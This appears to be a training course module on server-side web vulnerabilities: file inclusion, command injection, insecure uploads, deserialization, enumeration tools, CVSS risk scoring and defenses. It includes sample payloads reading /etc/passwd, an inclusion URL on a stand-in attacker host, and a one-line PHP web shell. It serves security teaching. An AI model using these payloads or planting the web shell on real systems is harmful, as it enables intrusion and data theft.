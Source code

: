 # 🛡️ Module 3: Server-Side Vulnerabilities and Risk Profiling (Extended Version)

This module focuses on server-side vulnerabilities and how attackers target the backend of web applications. It covers common misconfigurations, dangerous programming practices, and flawed server logic. Additionally, it introduces a structured approach to **risk profiling** — understanding which issues are most critical in a real-world assessment.

---

## 🎯 Learning Objectives

By the end of this module, students will be able to:

- Describe the difference between client-side and server-side vulnerabilities
- Identify and exploit common server-side flaws such as LFI, RFI, command injection, and insecure file uploads
- Understand how deserialization flaws lead to remote code execution
- Use tools to enumerate directories, test for misconfigurations, and fingerprint servers
- Conduct risk profiling using factors like severity, exploitability, and business impact

---

## 🖥️ Server-Side vs. Client-Side Security

### 👁️ Client-Side
- Runs in the user's browser (e.g., JavaScript)
- Vulnerabilities affect the **user's** environment

### 🧠 Server-Side
- Runs on the server (PHP, Python, Java, Node.js)
- Vulnerabilities impact the **application** and **its data**
- Exploits can lead to **full server compromise**

---

## 💥 Common Server-Side Vulnerabilities

### 1. **Local File Inclusion (LFI)**
- Occurs when a file path from user input is used directly by the server.
- Attackers can read arbitrary files:
  ```
  ?page=../../../../etc/passwd
  ```

### 2. **Remote File Inclusion (RFI)**
- Similar to LFI, but allows remote resources:
  ```
  ?page=http://attacker.com/shell.txt
  ```

### 3. **Command Injection**
- User-supplied input is passed directly to the OS shell:
  ```
  ping 10.0.0.1; cat /etc/passwd
  ```

- Dangerous because it allows arbitrary OS command execution.

### 4. **Insecure File Uploads**
- Uploading `.php`, `.jsp`, or `.exe` files and executing them
- Attackers may:
  - Bypass MIME/type checking
  - Upload disguised files (`shell.php.jpg`)
  - Use misconfigured directories with execute permissions

### 5. **Deserialization Attacks**
- Applications deserialize data without validation
- If attacker can craft objects in serialized format (PHP, Java, .NET), arbitrary code may run upon deserialization

---

## 🔍 Practical Exploitation

### 🛠️ Tools
- Burp Suite (manual request crafting)
- `curl` and `wget` for file uploads and command injection testing
- `ffuf`/`dirbuster` for content discovery
- `whatweb`, `wappalyzer` for tech fingerprinting

---

## 🗂️ Directory and Resource Enumeration

Many vulnerabilities are discovered by brute-forcing hidden directories:

```bash
ffuf -u https://example.com/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Try these for:
- `/admin/`, `/backup/`, `/test/`
- `.git/`, `.env`, `config.php`, `db.sqlite`

---

## 🛠️ Server Fingerprinting

Tools like `whatweb`, `httprint`, or `nmap` can identify:
- Server software and version (Apache, nginx, IIS)
- Programming language (PHP, Python)
- CMS or frameworks (WordPress, Laravel, etc.)

Example:
```bash
whatweb https://target.com
```

---

## 📊 Risk Profiling and Prioritization

Not all vulnerabilities are equal. A risk profiling framework helps prioritize.

### 🧮 CVSS: Common Vulnerability Scoring System
- Score based on:
  - Attack Vector
  - Privileges Required
  - Impact on Confidentiality/Integrity/Availability
  - Exploit Complexity
- Result is a number between 0.0 (no risk) and 10.0 (critical)

### 📘 OWASP Top 10 and CWE
- Use OWASP Top 10 to classify:
  - A1: Broken Access Control
  - A5: Security Misconfiguration
  - A8: Software and Data Integrity Failures

---

## 📌 Case Study: File Upload Exploitation

### Scenario:
1. Web app accepts image uploads
2. No validation of file type on the server
3. Attacker uploads `shell.php`:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
4. Attacker visits:
   ```
   https://example.com/uploads/shell.php?cmd=whoami
   ```

---

## 🛡️ Defense Strategies

- Validate and sanitize **all** user input on the server
- Use **whitelists** for acceptable file types
- Store uploads outside of the web root
- Disable dangerous PHP functions (`exec`, `system`)
- Serialize objects only with safe, signed formats (e.g., JWT)
- Use Web Application Firewalls (WAFs) as a defense-in-depth

---

## 🧪 Exercises

1. **Test for LFI**
   - Inject `?file=../../etc/passwd`
   - Monitor response for Unix file patterns

2. **Command Injection**
   - Try: `; whoami`, `&& id`, `| netstat -an`

3. **File Upload**
   - Upload `.php` shell
   - Try bypasses: double extensions (`file.php.jpg`), MIME tricks

4. **Dir Enumeration**
   - Use `ffuf` to locate sensitive files/directories

5. **Risk Profiling**
   - Score each discovered vulnerability
   - Sort findings by severity and likelihood of exploit

---

## 📚 Summary

- Server-side flaws impact core application functionality and data security
- Exploits include file inclusion, command injection, and file upload vulnerabilities
- Risk profiling is essential to prioritize what should be fixed first
- Use tools like `ffuf`, Burp, and `whatweb` for reconnaissance and exploitation
- Strong input validation, least privilege, and isolation help protect backend systems

Next module: **SQL Injection and Cross-Site Request Forgery**